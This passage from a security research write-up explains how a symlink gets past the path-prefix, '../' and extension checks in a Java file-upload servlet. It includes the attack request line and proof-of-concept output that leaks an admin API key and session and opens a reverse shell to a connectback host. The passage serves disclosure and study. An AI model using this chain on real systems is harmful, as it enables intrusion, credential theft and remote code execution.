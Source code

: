 ```java
/* 176 */         logger.info("No unsupported extension found");
/*     */       
/*     */       }
/*     */       else {                                                                                              // 4
/*     */         
/* 181 */         logger.error("Property UNSUPPORTED_FILE_EXTENSION missing in/opt/infra/inframgr/service.properties");
/* 182 */         sendResponseError(response, "Missing property UNSUPPORTED_FILE_EXTENSION in /opt/infra/inframgr/service.properties!");
/*     */ 
/*     */         
/*     */         return;
/*     */       } 
/* 187 */     } catch (IOException ioExcep) {
/*     */       
/* 189 */       logger.error(errMesg + ioExcep.getMessage());
/* 190 */       sendResponseError(response, "Failed to load property!");
/*     */ 
/*     */       
/*     */       return;
/*     */     }
```

<p class="cn" markdown="1">At *[1]* the code gets the `filePath` which is attacker controlled and at *[2]* the code checks that our string starts with "/opt/infra/uploads/". Great! We pass the first validation check!</p>

<p class="cn" markdown="1">Then the code checks "../" is not in our `filePath` at *[3]*. We can bypass that check too because we are pointing it to the symlink. Finally the the code checks that the file extension is not in this list at *[4]*:</p>

```bash
[root@localhost ~]# cat /opt/infra/inframgr/service.properties | grep UNSUPPORTED_FILE_EXTENSION
UNSUPPORTED_FILE_EXTENSION = html,htm,js,jsp
```

<p class="cn" markdown="1">You guessed it, we can also bypass that check too because our symlink has no extension! Suppose our symlink is called `si`, then attack string we use for the upload is:</p>

`POST /app/ui/FileUploadServlet?filePath=external/public/1571743726801/si HTTP/1.1`

<p class="cn" markdown="1">Chaining everything together, we get our cake and can eat it too.</p>

```bash
saturn:~ mr_me$ ./poc.py 
(+) usage: ./poc.py <target> <connectback:port>
(+) eg: ./poc.py 192.168.100.144 192.168.100.59
(+) eg: ./poc.py 192.168.100.144 192.168.100.59:1337

saturn:~ mr_me$ ./poc.py 192.168.100.144 192.168.100.59
(+) using default connectback port 4444
(+) created the exports directory!
(+) found an admins rest api key: 0A7DB7EC61204627BB833CE07AEA0F4C
(+) you are now admin with: JSESSIONID=ECAEF2D2CF7C4915E8FFA7FEB33995DB4D34445FDE1E24D2C58240FF66393631
(+) created the /opt/infra/uploads/multipart/a2htampra2Mub3Zh/khmjjkkc.ova file
(+) created objsession for the untar: OBJSESS1571747699398:189
(+) wrote target symlink!
(+) leaking symlink location, give me a few seconds...
(+) leaked symlink path: /opt/infra/uploads/external/public/1571747700876/
(+) triggered symlink write!
(+) bypassed the ../ and .jsp checks!
(+) starting handler on port 4444
(+) connection from 192.168.100.144
(+) pop thy shell!
id
```